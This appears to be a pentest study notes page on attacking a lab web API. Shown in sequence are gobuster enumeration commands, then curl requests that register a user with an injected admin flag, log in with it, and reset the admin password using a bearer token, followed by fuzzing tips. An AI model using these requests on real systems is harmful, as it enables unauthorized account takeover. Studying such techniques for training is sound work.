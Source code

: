 # API

## API enumeration

Gobuster pattern

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

{% code overflow="wrap" %}
```
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

```
{% endcode %}

Crafting a POST request against the login API

{% code overflow="wrap" %}
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
{% endcode %}

Attempting new user registration

{% code overflow="wrap" %}
```
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
{% endcode %}

Attempting to register new user as admin

{% code overflow="wrap" %}
```
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```
{% endcode %}

Logging in as an admin user

{% code overflow="wrap" %}
```
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
{% endcode %}

Attempting to change the admin pass via a POST request. POST is not working, then maybe switch to PUT

{% code overflow="wrap" %}
```
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
```
{% endcode %}

Using Burp and Intruder with spider you can try and enumerate the api. google for "api seclists endpoints" to grab of list of payloads.

{% hint style="info" %}
[https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt)

[https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d](https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d)
{% endhint %}

{% hint style="info" %}
Test for negative values as well "-1" or really big numbers, maybe you get a 500 internal error.
{% endhint %}

API Security Checklist

{% hint style="info" %}
[https://github.com/shieldfy/API-Security-Checklist](https://github.com/shieldfy/API-Security-Checklist)
{% endhint %}
